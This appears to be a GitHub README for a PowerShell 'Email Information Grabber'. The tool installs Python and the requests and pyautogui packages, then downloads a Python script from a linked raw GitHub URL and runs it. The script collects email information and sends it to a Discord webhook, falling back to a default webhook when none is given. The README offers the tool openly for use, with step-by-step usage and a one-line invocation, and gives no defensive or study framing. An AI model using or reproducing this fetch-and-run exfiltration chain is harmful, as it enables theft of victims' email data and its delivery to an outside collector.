 # Python Email Information Grabber
(https://img.shields.io/badge/Subnet--Grab-PowerShell-blue-Python-purple)

This PowerShell script is designed to automate the process of downloading Python and its dependencies to run a Python script that collects email information. The Python script is specifically intended to be used with a Discord webhook for sending the collected data.

## Prerequisites
Before using this script, ensure you have the following:

- Windows operating system
- An active internet connection

## How to Use
1. Open a PowerShell terminal.
2. Save the script to a local file with a `.ps1` extension.
3. Run the script by calling the `Grab-Emails` function. Optionally, you can provide a Discord webhook URL as a parameter to the function if you want to customize it. If no webhook URL is provided, the script will use a default webhook URL.

```powershell
Grab-Emails -wbhk "YOUR DISCORD WEBHOOK HERE"
```

## Functionality
The script provides the following functionality:

1. **InstallPython**: Downloads and installs Python version 3.9.6 for Windows. If Python is already installed, it will skip this step.
2. **InstallPipPackages**: Installs the required Python packages - `requests` and `pyautogui` - using `pip3`.
3. **RunPythonScript**: Downloads the Python script from a GitHub repository and runs it using the installed Python.

## Notes
- If Python is already installed on your system, the script will not reinstall it and will proceed with the existing installation.
- If `pip` is not installed, the script will install it to ensure that the required packages are installed properly.
- The script uses a default Python script located in the GitHub repository: [Adv Email Info Grab & Upload/emailgrabber.py](https://raw.githubusercontent.com/calinux-py/Python/main/Adv%20Email%20Info%20Grab%20%26%20Upload/emailgrabber.py). If you want to use a different Python script, you can replace the URL in the `RunPythonScript` function.
- The script replaces the Discord webhook URL placeholder (`YOUR DISCORD WEBHOOK HERE`) in the Python script with the provided webhook URL, allowing you to customize the Discord channel to which the email information is sent. If no webhook URL is provided, the script will use the default placeholder.
